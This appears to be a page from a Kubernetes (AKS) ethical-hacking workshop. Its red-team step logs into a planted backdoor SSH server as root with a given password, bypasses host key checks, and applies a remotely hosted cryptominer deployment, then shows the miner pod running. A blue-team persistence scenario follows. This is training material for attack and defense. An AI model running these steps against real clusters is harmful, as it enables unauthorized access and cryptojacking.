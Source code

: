 There is a service account associated with the container which has been granted access to all kubernetes APIs
The container is running with a privileged security context which grants it direct access to the host OS
Deploying Miners via the back door
You will need the SSH server IP address that was deployed in the previous attack. You can fetch it again in the hacked app by running:

Use the Red Team terminal tab

SSH_SERVER_IP=$(kubectl get svc metrics-server-service -n kube-system -o table -o jsonpath='{.status.loadBalancer.ingress[0].ip}')
echo $SSH_SERVER_IP
Now login to the SSH server:

ssh root@$SSH_SERVER_IP -p 8080 -o StrictHostKeyChecking=no
The Password is:

Sup3r_S3cr3t_P@ssw0rd
Let's re-download kubectl and create our miner:

apk update
apk add curl
cd /usr/local/bin
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod 555 kubectl
export KUBERNETES_SERVICE_HOST=kubernetes.default.svc
export KUBERNETES_SERVICE_PORT=443
kubectl apply -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/bitcoinero.yaml
Verify that the pod is running:

kubectl get pods -n dev
The output should look something like this:

NAME                           READY   STATUS    RESTARTS   AGE
bitcoinero-6b95755447-cttkz    1/1     Running   0          23s
insecure-app-66dffb686-tp46w   1/1     Running   0          24m
Time for some celebratory pizza! Go ahead and logout of the ssh session.

exit

Ethical Hacking with AKS: Hands-On Attack and Defense Strategies
1 Hr 25 Min Remaining 
Scenario 2 Defense (Persistence)
Backstory
Name: Blue
Still overworked
Still can only do the bare minimum
Uses the defaults when configuring systems
Usually gets blamed for stability or security issues
Motivations
A week after the first incident, Blue gets paged at 3am because "the website is slow again".
Blue, puzzled, takes another look.
Blue decides to dust off the résumé "just in case".
Defense
Blue is paged again with the same message as last time. What is going on? Could this be the same problem again?

